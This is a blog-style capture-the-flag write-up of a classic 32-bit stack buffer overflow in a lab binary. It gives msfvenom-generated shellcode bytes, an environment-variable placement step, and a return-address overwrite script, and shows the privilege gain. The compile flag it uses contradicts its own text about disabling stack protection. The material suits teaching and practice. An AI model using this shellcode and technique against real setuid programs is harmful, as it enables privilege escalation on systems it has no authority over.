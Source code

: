 ```yaml
---
title:  "[CTF] Binary Master Ensign - 1"
categories: [CTF, Binary-Master]
---
```


![Logo](/assets/images/belts-white.png)

At one point I _stumbled_  over the **Certified Secure Binary Mastery** challenges. 
They are not terribly difficult and _each one of them has an interesting element_. This makes them _accessible and fun_. 

In this blog posts and the following four I'll go through the [Ensign](https://www.certifiedsecure.com/certification/view/37) levels. As described, these ones deal with _retro exploitation techniques_ like buffer overflows, format strings, off-by-one errors and so on. No recent security mitigations are involved in the Ensign levels (E.g.: ASLR or non-executable stack). Don't worry too much about this yet, because their complexity increases to keep the hackers _in flow_. 

![Ensign](/assets/images/bm1.png)

**I hope it goes without saying that these blog posts shouldn't be used as a way to cheat yourself in any case, but as a learning oportunity. With this in mind, let's begin with _Level 1_**.

## 0 - Discovery

Let's connect to the server and check the binary we're dealing with:
```
$ ssh level1@hacking.certifiedsecure.com -p 8266
level1@hacking.certifiedsecure.com's password: 
Welcome to Ubuntu 14.04.5 LTS (GNU/Linux 3.13.0-119-generic x86_64)

 * Documentation:  https://help.ubuntu.com/

   ___  _                      __  ___         __              
  / _ )(_)__  ___ _______ __  /  |/  /__ ____ / /____ ______ __
 / _  / / _ \/ _ `/ __/ // / / /|_/ / _ `(_-</ __/ -_) __/ // /
/____/_/_//_/\_,_/_/  \_, / /_/  /_/\_,_/___/\__/\__/_/  \_, / 
                     /___/                 _            /___/  
                             ___ ___  ___ (_)__ ____ 
                            / -_) _ \(_-</ / _ `/ _ \
                            \__/_//_/___/_/\_, /_//_/
                                          /___/      
```

Let's see if we have any mitigation techniques using [checksec.sh](http://www.trapkit.de/tools/checksec.html), downloaded and run locally:
```bash
$ checksec.sh --file level1
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   level1
```

Good signs: as expected NX is disabled and there is no stack canary. Let's verify that the stack is executable:
```
$ readelf -lW level1 | grep GNU_STACK
  GNU_STACK      0x000000 0x00000000 0x00000000 0x00000 0x00000 RWE 0x10
```

The R**W**E flag suggests Read-**Write**-Execute flags are all enabled. What about the state of ASLR on the system? Good news again: there is [no ASLR](https://askubuntu.com/questions/318315/how-can-i-temporarily-disable-aslr-address-space-layout-randomization), everything is static:
```bash
$ cat  /proc/sys/kernel/randomize_va_space
0
```

## 1 - Vulnerability

What we have here is a classic stack-based buffer overflow, caused by overflowing the 16-byte buffer _buf_ using the insecure function _strcpy_, which doesn't do any bounds checking:

```c
#include <stdio.h>                                                                                                 
#include <string.h>

void helloworld(char* name) {
    char buf[16];

    strcpy(buf, name);

    printf("Hello %s!\n", buf);
}

int main(int argc, char** argv) {
    if (argc != 2) {
        printf("Usage: %s <name>\n", argv[0]);
       
        return -1;
    }

    helloworld(argv[1]);

    return 0;
}
```

## 2 - Exploitation

By overwriting the return address from the function _helloworld_, we can redirect the execution of the program. We'll chose as destination _**a location on the stack containing our shellcode**_. Steps:
* Find the position that overwrites the return address.
* Generate _NULL-free_ shellcode for the correct architecture. Although the machine is 64-bit, the binaries are 32!
* Place the shellcode in an environment variable.
* Find the static address of the environment variable (No ASLR, remember?) and used it conjunction with step 1.

### Control the execution flow
Although  we can generally use tools from Metasploit Framework like _pattern_create_ and _pattern_offset_, in this case it is much simpler. We can just examine stack of the _helloworld_ function in IDA:

![helloworld stack](/assets/images/bm1-2.png)

So at dest+24 we have the saved EBP and at **dest+28** the saved return address. 

### Generate shellcode
We'll do this very easily from Kali. We can generate a payload to execute **/bin/dash** to ensure it will [not drop the SUID privileges](http://stackoverflow.com/questions/13209215/bin-sh-does-not-drop-privileges):
```bash
# msfvenom  -p linux/x86/exec CMD=/bin/dash -e x86/shikata_ga_nai -b '\x00' -f python
```

### Shellcode placement and location
Place the shellcode generated from MSF into a python script (_put-sc.py_ below) and place the output into an environment variable:

```python
buf =  ""                                                                                                          
buf += "\xda\xd7\xba\xb4\x13\x10\x12\xd9\x74\x24\xf4\x5d\x31\xc9\xb1"
buf += "\x0c\x31\x55\x18\x83\xed\xfc\x03\x55\xa0\xf1\xe5\x78\xc3\xad"
buf += "\x9c\x2f\xb5\x25\xb2\xac\xb0\x51\xa4\x1d\xb1\xf5\x35\x0a\x1a"
buf += "\x64\x5f\xa4\xed\x8b\xcd\xd0\xe7\x4b\xf2\x20\xd8\x29\x9b\x4e"
buf += "\x09\xca\x3a\xfc\x3d\x12\xea\x51\x34\xf3\xd9\xd6"

print "\x90"*30 + buf
```

```bash
$ export EGG=$(python /tmp/put-sc.py)
```

We still need to find out exactly where on the stack of our level1 binary will the environment variables reside. The easiest way to do this is to add an instruction to print the address of our environment variable and recompile level1.c **_on the target_**:

```c
 printf("EGG address: 0x%lx\n", getenv("EGG"));
 ```
 
 To compile files on the target we need to do it from the /tmp folder, or use a different TMPDIR variable, because we don't have write access in the current home folder, used by gcc for temporary files. Let's say we want to create another directory to be used as temporary folder for compilation:
 
 ```bash
$ mkdir /tmp/me
$ export TMPDIR=/tmp/me                                                                                            
$ gcc -m32 -fstack-protector -z execstack  /tmp/level1-mod.c -o /tmp/level1-mod
 ```
 
 Don't forget to use the same protection mechanisms (none!) as present in the original binary: no stack cookies (_-fnostackprotector_) and executable stack (_-z execstack_).
 
So the static address where the environment variable EGG will be located when running level1 is **0xffffd8c6**:

```bash
$ /tmp/level1-mod aaaaa
EGG address: 0xffffd8c6
Hello aaaaa!
```
## 3 - Profit

The following script generates the payload:

```python
#!/usr/bin/python                                                                                                  

import struct

# Address of environment variable containing shellcode
# Obtain this from findeggaddr.c
ret =  struct.pack("<L", 0xffffd8c6)

print "A" * 24 + ret*2
```

And we're in:
```bash
$ /levels/level1 $(python /tmp/expl.py)
Hello AAAAAAAAAAAAAAAAAAAAAAAA������!
$ id
uid=1002(level1) gid=1002(level1) euid=1003(level2) groups=1003(level2),1002(level1)
$ /home/level2/victory
   ___  _                      __  ___         __              
  / _ )(_)__  ___ _______ __  /  |/  /__ ____ / /____ ______ __
 / _  / / _ \/ _ `/ __/ // / / /|_/ / _ `(_-</ __/ -_) __/ // /
/____/_/_//_/\_,_/_/  \_, / /_/  /_/\_,_/___/\__/\__/_/  \_, / 
                     /___/                 _            /___/  
                             ___ ___  ___ (_)__ ____ 
                            / -_) _ \(_-</ / _ `/ _ \
                            \__/_//_/___/_/\_, /_//_/
                                          /___/      

Subject: Victory!

Congrats, you have solved level1. To update your score,
send an e-mail to unlock@certifiedsecure.com and include:
   * your CS-ID
   * which level you solved (level1 @ binary mastery ensign)
   * the exploit

You can now start with level2. If you want, you can log in
as level2 with password [REDACTED]
```


In the [next level]({{ site.baseurl }}{% post_url 2016-01-14-binary-master-ensign-2 %}) we'll exploit another classic vulnerability, **uncontrolled format strings**.
